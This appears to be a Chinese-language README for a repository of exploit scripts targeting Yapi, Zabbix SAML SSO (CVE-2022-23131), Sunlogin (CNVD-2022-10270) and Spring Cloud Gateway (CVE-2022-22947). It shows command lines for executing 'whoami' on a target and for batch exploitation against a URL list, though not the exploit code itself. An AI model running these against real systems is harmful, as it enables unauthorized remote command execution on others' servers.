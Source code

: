 # vuln_script
漏洞脚本

```
Yapi远程命令执行漏洞.py

```

## CVE-2022-23131 Zabbix SAML SSO认证绕过     CVE-2022-23131.py
python3 CVE-2022-23131.py -u http://127.0.0.1 -a Admin
![image](https://user-images.githubusercontent.com/33044636/156746852-69ffce94-4d5b-4cea-bfe5-688304ec08aa.png)



## 向日葵存在命令执行漏洞(CNVD-2022-10270)     sunlogin_rce.py

## 验证
```
python3 sunlogin_rce.py
```
![image](https://user-images.githubusercontent.com/33044636/156746675-ae44db14-24f6-4bde-a400-07b970cf1fb5.png)




## Spring Cloud Gateway 远程代码执行漏洞       CVE-2022-22947.py

### 单个验证

具体的参数请看使用说明 `python3 CVE-2022-22947.py -h`

```
python3 CVE-2022-22947.py -u http://10.108.0.52:8080 -x whoami
```
![image](https://user-images.githubusercontent.com/33044636/156746308-40ff11ec-fdd1-4559-8d19-8bbc94a58ae0.png)


### 批量验证

```
python3 CVE-2022-22947.py -f url.txt
```
![image](https://user-images.githubusercontent.com/33044636/156746195-85182e7c-957f-49a5-b029-4c4e9ff6da28.png)

